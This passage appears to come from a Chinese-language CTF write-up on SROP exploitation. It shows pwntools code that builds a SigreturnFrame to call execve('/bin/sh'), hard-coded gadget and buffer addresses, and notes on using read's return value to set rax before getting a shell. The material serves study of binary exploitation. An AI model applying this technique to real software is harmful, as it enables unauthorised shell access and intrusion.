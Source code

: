 ```
#注释头
 
payload += str(frameExecve)#设置SigreturnFrame结构体
 
io.send(payload)
#set_read处的读取
 
sleep(3)
 
 
io.send('/bin/sh\x00' + ('a')*7) 
#call_read处的读取。

```

读取 15 个字符到 0x60115c，目的是利用 read 返回值为读取的字节数的特性设置 rax=0xf，注意不要使 / bin/sh\x00 字符串发生改变。

最后 io.interactive() 即可 getshell。

▲总的程序流应该是：首次 read->set_read->call_read->syscall

结构体的设置，固定模式：

```
#注释头
 
frameExecve = SigreturnFrame() #设置SROP Frame
frameExecve.rax = constants.SYS_execve
frameExecve.rdi = binsh_addr
frameExecve.rsi = 0
frameExecve.rdx = 0
frameExecve.rip = syscall_addr

```

开头设置：

```
#注释头 
 
syscall_addr = 0x400560 
set_read_addr = 0x40055b 
read_addr = 0x400571 
fake_stack_addr = 0x60116c 
binsh_addr = 0x60115c

```

参考资料：

[https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)  

Canary 绕过 0x09
==============

